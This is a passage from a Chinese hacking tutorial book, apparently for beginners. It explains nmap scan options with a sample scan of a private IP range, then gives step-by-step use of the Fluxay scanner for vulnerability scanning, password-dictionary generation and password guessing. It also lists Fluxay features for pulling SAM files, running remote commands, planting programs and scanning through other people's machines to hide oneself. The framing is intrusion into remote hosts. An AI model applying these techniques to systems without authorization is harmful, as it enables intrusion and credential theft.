

图 3.23

nmap 的使用格式为：**nmap 扫描类型 选项 主机清单**。

### 常用的扫描类型如下：

- `-sS` TCP SYN 方式扫描，这也是默认使用的扫描方式
- `-sT` Connect() 方式扫描
- `-sA` 使用 ACK 方式扫描
- `-sU` UDP 方式扫描
- `-sO` IP 协议扫描
- `-sP` Ping 扫描
- `-sV` 版本扫描，探测开放端口未知的服务与应用程序的名字和版本

### 常用探测模式：

- `-O` 探测远程主机的操作系统类型
- `-p <端口范围>` 要扫描的端口范围，可以使用 `1-80` 这样的方式，也可以采用 `22,23,25,80` 这样的方式
- `-F` 快速扫描，仅仅扫描 nmap 服务文件里列出的端口

比如我们执行 `nmap -sS -p 21,22,23,25,135,139,445,80 -O -PE -PS 192.168.0.22-123`，也就是选择以 TCP SYN 方式扫描，要选择的端口为 21、22、23、25、135、139、445 和 80，探测远程主机的系统类型，icmp 有效，使用 TCP ACK Ping 方式，选择扫描的 IP 范围为 192.168.0.22 至 192.168.0.123 之间的主机，扫描结果如图 3.24 所示。



图 3.24

与 SuperScan 不同的是，对于扫描的端口，开放的则会以 open 来标示出来，而对于不开放的则会以 closed 标示出来。另外，nmap 对于远程主机操作系统类型的判断是非常准确的，这也是 nmap 最大的特点。

> “nmap 这么多的扫描参数该怎么记呀？要是像 SuperScan 那样有图形界面就好了。”看到这么多参数，连阿黑也开始抱怨了。  
> “好了，不要再抱怨了，知道你们懒，所以高手们也制作出了图形界面的 nmap，我们来看看吧。”

将 WinNmap-1.0 解压后直接双击运行里边的 winnmap.exe，就会弹出如图 3.25 所示的界面来。



图 3.25

在“Target”栏输入我们要扫描的 IP 地址，比如 192.168.0.22-123，在 Scan Type（扫描类型）栏中默认使用的为 TCP SYN 扫描方式，在右边的 Scan Ports（扫描端口）选项中，我们选择 Custom 方式，然后在下边的 Ports 栏中输入自己想要扫描的端口，比如“21,22,23,145,445,80”，在下边的 Scan Extensions 中我们勾选上 OS Detection，也就是扫描远程主机的系统类型，如图 3.26。一切选择好后，点击“Scan”按钮，工具就会自动进行扫描了，扫描结果如图 3.27 所示。与命令行方式下扫描的结果一样吧，但看起来更直观，使用也更简单了。



图 3.26



图 3.27

在 Linux 中，nmap 已经被集成在系统安装文件里，当我们安装好系统后，就可以直接使用 nmap 了。其使用格式与在 Windows 下一样。不但如此，在 Linux 系统中还集成了一个图形界面的 nmap，我们在 shell 下直接运行 nmapfe，图形界面的 nmap 就会出来了，具体的使用方法同上边的 winnmap 类似，如图 3.28。



图 3.28

#### 3.2.3 曾经的经典——流光

流光是国内的黑客高手小榕编写的一款非常经典的漏洞综合扫描工具，想当年，你们敬爱的 sagi 老师，最早学习黑客，就是从使用流光开始的。我们以流光 5 正式版为例，来简单介绍一下流光的使用。

在使用流光前，我们要先进行安装，直接双击运行流光 5 的安装程序 Setup_Fluxay5.exe，安装界面就会出现了。接受许可证协议后，就来到了选择组件界面，如图 3.29，直接点击“下一步”，就会要求我们选择安装的目录，如图 3.30，点击“下一步”后会要求我们“选择‘开始菜单’文件夹”以及是否创建快捷方式，如图 3.31，点击“安装”按钮后，流光就会自动进行安装了，如图 3.32。可以说整个安装过程是非常简单的。





图 3.29

图 3.30





图 3.31

图 3.32

安装完成后，在系统的桌面上就会有一个名叫 Fluxay 的图标了，双击运行，流光的主界面就出现了，如图 3.33。



图 3.33

我们点击最上方的“探测”选项，选择其下的“高级扫描工具”，就会出现流光的“高级扫描设置”窗口。可以说流光主要的扫描设置都在这儿了，包括 TELNET、CGI、CGI Rules、SQL、IPC、IIS、FINGER、RPC、MISC、PLUGINS、PORTS、POP3、FTP、SMTP、IMAP 等项，可以点击“全选”按钮全部选择，也可以根据自己的需要任意选择，如图 3.34。

在“起始地址”栏输入我们要扫描的开始 IP 地址，比如 192.168.0.1，在“结束地址”栏中输入要扫描的结束 IP 地址，比如 192.168.0.255 就可以了。我们来看一下“PORTS”项，默认使用的是“标准端口扫描”，我们也可以选择下边的“自定义端口扫描范围”，然后自己填上要扫描的开始和结束的端口号，如图 3.35。通常我们使用“标准端口扫描”就可以了。




图 3.34

图 3.35

再来看一下“选项”，这个主要是用来设置猜解用户名和密码所使用的字典文件，如图 3.36。流光自己已经集成了一些常用的用户名和密码字典文件，事实上流光的用户名和密码猜解能力直到今日，我认为都是非常不错的。


图 3.36    图 3.37

全部设置完毕后，我们回到“设置”项，然后点击“确定”，流光会弹出一个要求我们选择流光主机的窗口（如果我们给别的电脑安装过 Fluxay Sensor，就可以选择那台电脑来实现代理扫描，这样既可以充分利用对方的带宽，又可以起到保护自己的目的），直接点击“开始”按钮，流光就会自动进行扫描了，如图 3.37。右上方黑色的区域中显示的是流光当前的扫描状态，而探测的结果会单独显示在下方那个黑色的区域里，如图 3.38。


图 3.38

全部扫描完成后，流光会弹出一个小窗口，询问我们是否查看扫描结果，点击“是”后详细的扫描结果就会以网页文件的形式显示出来了，如图 3.39。

流光之所以经典，除了其优秀的扫描探测及用户密码猜解能力外，还与其集成了众多实用的小工具密不可分的。在流光主界面上方的“工具”选项中，主要有字典工具（用于制作用户名和密码字典文件）；NT/IIS 工具，包括 NT 管道命令、IIS 远程命令、下载 SAM 文件、上载 SAM 文件、种植者（这是一个类似 tftp 的功能，可以用于将本地的程序上传到远程主机上并自动运行）；MSSQL 工具（利用 SA 权限远程执行命令）；Fluxay Sensor 工具，这个功能可以实现代理扫描；远程网络嗅探，这是流光 5 中新增加的功能，可以实现远程网络的嗅探。另外还有从 Passwd 文件（UNIX/Linux 系统中用于存放系统用户的文件）产生用户列表，PCAnyWhere 密码文件解码等功能。

## 第三章 入侵从这儿开始——远程主机的信息刺探


图 3.39

我们主要来看一下如何利用流光的字典工具来制作用户名和密码字典文件。选择“字典工具”下的“黑客字典III－流光版”，界面如图 3.40 所示，默认选择的是 3 个字母+2 个数字形式的字典，字母范围是从 A 至 Z，数字范围是从 0 到 9。我们可以根据自己的需要生成比如纯 6 位（生日）、7 位（电话号码）、8 位（电话号码）数字的字典文件。如果不想使用字母或数字的话，只需要将其前面的勾号取消掉就可以了。

点击“选项”按钮，在这儿可以具体地设置字母和数字的形式，比如是否“字母采用大写形式”、是否“仅仅首字母大写”、是否“数字在字母前”等等，大家可以根据自己的需要进行设置，如图 3.41。


图 3.40

图 3.41

在“文件存放位置”选项中，可以点击“浏览”按钮来选择保存生成的字典文件的路径，如图 3.42。


图 3.42

在“高级选项”中，我们甚至可以任意地设置字母和数字的位置，如图 3.43。点击“确定”后，就会生成我们需要的字典文件了。


图 3.43

不过，令人遗憾的是流光中的许多工具，比如 NT 管道命令、下载 SAM 文件、上载 SAM 文件、种植者、Fluxay Sensor 工具、远程网络嗅探等都是依赖于早期 Windows NT/2000 系统的 IPC$。而对于个人用户目前广泛使用的 Windows XP 系统，因为 XP 系统的 IPC$ 与 2000 相比安全性得到了加强，即使我们获得了 XP 系统的管理员用户帐号和密码，进行 IPC$ 连接时，也只能是普通用户权限。因此，上边的那些功能对于 XP 